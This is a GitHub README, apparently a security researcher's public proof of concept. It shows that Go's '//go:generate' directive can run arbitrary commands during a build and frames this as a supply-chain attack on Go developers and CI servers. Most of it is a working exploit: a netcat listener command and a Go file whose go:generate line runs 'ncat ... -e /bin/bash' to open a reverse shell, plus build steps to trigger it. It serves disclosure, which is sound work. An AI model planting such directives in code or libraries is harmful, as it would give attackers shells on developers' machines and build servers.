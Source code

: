 [![Tweet](https://img.shields.io/twitter/url/http/Hktalent3135773.svg?style=social)](https://twitter.com/intent/follow?screen_name=Hktalent3135773) [![Follow on Twitter](https://img.shields.io/twitter/follow/Hktalent3135773.svg?style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=Hktalent3135773) [![GitHub Followers](https://img.shields.io/github/followers/hktalent.svg?style=social&label=Follow)](https://github.com/hktalent/)
[![Top Langs](https://profile-counter.glitch.me/hktalent/count.svg)](https://51pwn.com)

# golang-RCE-0day-POC
golang RCE 0day POC

## see
https://twitter.com/Hktalent3135773/status/1508635999030571008

https://hackerone.com/reports/1525100


https://github.com/golang/go/issues/52059

# It was officially allowed, so it was made public
https://issuetracker.google.com/issues/227263888
Maybe it's not a bug, it's the expected behavior, but it's the way of RCE（Remote Command Execution） attack in the supply chain
The go generate command does not conduct security check. When compiling the associated malicious library and code, it may cause the execution of the "//go:generate [malicious command]"
## Impact

### 1、hacker run
```bash
nc -lv 4444
```
### 2、POC
```go
testRce.go
Code 152 BytesWrap lines Copy Download
package main

import (
       "fmt"
)
//go:generate ncat 127.0.0.1 4444 -e /bin/bash
func main() {
fmt.Println("test go:generate remote command execution ")
}
```
### 3、run build
```bash
go generate -x testRce.go
```
### 4、test command execution
```
in "nc -lv 4444" console
```

Attack scenario:
People who provide golang open source libraries and projects may embed malicious commands, causing users to trigger commands during compilatio
![2022-03-29 10 12 06](https://user-images.githubusercontent.com/18223385/160965966-a00173f8-742d-4a6e-9ee0-ba5e23ac536f.gif)


## 受害者
- Golang developer
- Golang open source automatic compilation integration server
- 
